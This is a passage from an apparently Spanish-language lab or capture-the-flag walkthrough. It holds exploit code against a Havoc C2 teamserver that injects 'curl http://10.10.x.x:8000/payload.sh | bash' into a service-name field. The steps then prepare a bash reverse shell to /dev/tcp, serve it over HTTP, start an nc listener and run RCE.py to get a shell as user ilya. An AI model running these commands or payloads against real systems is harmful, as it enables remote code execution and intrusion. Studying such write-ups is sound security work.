payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)

cmd = "curl http://10.10.x.x:8000/payload.sh | bash" 
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n    \"Amsi/Etw Patch\": \"None\",\n    \"Indirect Syscall\": false,\n    \"Injection\": {\n        \"Alloc\": \"Native/Syscall\",\n        \"Execute\": \"Native/Syscall\",\n        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n    },\n    \"Jitter\": \"0\",\n    \"Proxy Loading\": \"None (LdrLoadDll)\",\n    \"Service Name\":\"" + injection + "\",\n    \"Sleep\": \"2\",\n    \"Sleep Jmp Gadget\": \"None\",\n    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n    \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
"Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)

</code></pre>


<h1>User</h1>
<p>Siga el mismo procedimiento a continuación..</p>  
<p>Prepare el shell inverso -> bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1. Guárdelo como payload.py.</p>  
<p>Ejecute el servidor HTTP de Python -> python3 -m http.server 8000..</p>  
<p>Ejecute el oyente -> nc -nlvp 4444..</p> 
<p>Ejecute el archivo de explotación desde el repositorio -> python3 RCE.py — destino https://10.10.x.x -i 127.0.0.1 -p 40056.</p> 
<p>Cuando la sesión queda atrapada en el lado del oyente, podemos ver que hemos ingresado exitosamente al puerto ssh del usuario ilya. .</p> 
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-24%20212106.png?raw=true" alt="Captura de pantalla">
